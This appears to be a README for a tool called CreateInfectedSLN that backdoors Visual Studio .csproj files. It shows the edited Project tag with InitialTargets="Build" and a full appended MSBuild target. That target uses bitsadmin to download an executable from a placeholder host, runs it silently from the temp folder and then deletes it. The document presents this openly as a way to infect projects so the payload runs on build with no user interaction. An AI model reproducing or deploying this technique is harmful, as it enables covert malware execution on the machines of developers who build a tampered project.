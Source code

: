 ## Usage:

CreateInfectedSLN(string Path, string Job, string rURL, string fName)
CreateInfectedSLN(path to .csproj, random string, direct download url, name of file after download);


## So what does this do?

```xml
This edits the file and adds a bit to it:
We change the 15 to 14 and add InitialTargets="Build" 
```

#### Clean .csproj:

```xml 
<Project ToolsVersion="15.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
```
#### Modifed .csproj
```xml 
<Project ToolsVersion="14.0" InitialTargets="Build" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 ```

 ### We the append this to the end of the file:
```xml
<Target Name="Build">
    <Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="%temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="del %temp%\Demo.exe" >
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Message Importance="high" Text="$(ErrorCode)"/>
    </Target> 
```
### Here is the bit part: 

We use bitsadmin to assign a job that downloads and runs the process after its downloaded in the background and requires no user interaction.  
```xml
<Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">```


